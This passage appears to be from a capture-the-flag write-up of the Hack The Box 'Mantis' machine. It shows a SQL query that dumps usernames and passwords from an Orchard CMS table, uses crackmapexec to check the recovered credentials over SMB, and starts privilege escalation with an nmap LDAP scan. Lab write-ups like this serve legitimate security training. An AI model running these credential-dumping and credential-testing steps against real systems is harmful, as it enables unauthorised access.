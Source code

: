 ```
LastLoginUtc                                                                                                                       

LastLogoutUtc

SQL> Select Username,Password FROM blog_Orchard_Users_UserPartRecord;

admin                                                                                                                                                                                                                                                             AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==                                                                                                                                                                                              

James                                                                                                                                                                                                                                                             J@m3s_P@ssW0rd!
```
{% endcode %}

Great! Now we have this user. However, this user doesn't seem to be part of any remote management group, but his credentials are valid.

```
$ crackmapexec smb 10.129.77.179 -u james -p 'J@m3s_P@ssW0rd!'
SMB         10.129.77.179   445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.77.179   445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

## Privilege Escalation

### Bloodhound -> Deadend

I initially tried to gather more information about the domain via `bloodhound` to see if this user had privileges over other users.

First we need to find the domain name by scanning port 389.&#x20;

{% code overflow="wrap" %}
```
$ sudo nmap -p 389 -sC -sV -O -T4 10.129.77.179        
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-22 01:34 +08
Nmap scan report for htb.local (10.129.77.179)
Host is up (0.0075s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
```
{% endcode %}
